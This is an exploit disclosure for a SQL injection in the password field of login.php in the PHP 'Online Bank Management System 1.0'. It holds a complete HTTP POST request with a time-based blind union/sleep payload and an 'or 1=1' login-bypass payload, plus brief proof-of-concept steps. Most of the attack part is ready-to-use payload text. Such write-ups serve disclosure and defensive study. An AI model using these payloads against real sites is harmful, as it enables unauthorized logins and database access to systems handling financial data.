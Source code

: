 # Online Bank Management System - login.php 'password' SQL inject

#### Exploit Title: Online Bank Management System - login.php 'password' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the "login.php/password" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
Host: 192.168.67.14:8089
Content-Length: 95
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.14:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.14:8089/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

email=manager%40manager.com&password=1'and 1=2 union select 1,sleep(10),3,4,5 --+&managerLogin=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![source-code](D:\cves\php-bank\images\source-code.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

![result1](D:\cves\php-bank\images\result1.png)

4、We can also construct a payload for universal password login

payload:`email=manager%40manager.com&password=1'or '1'='1&managerLogin=`

![passlogin](D:\cves\php-bank\images\passlogin.png)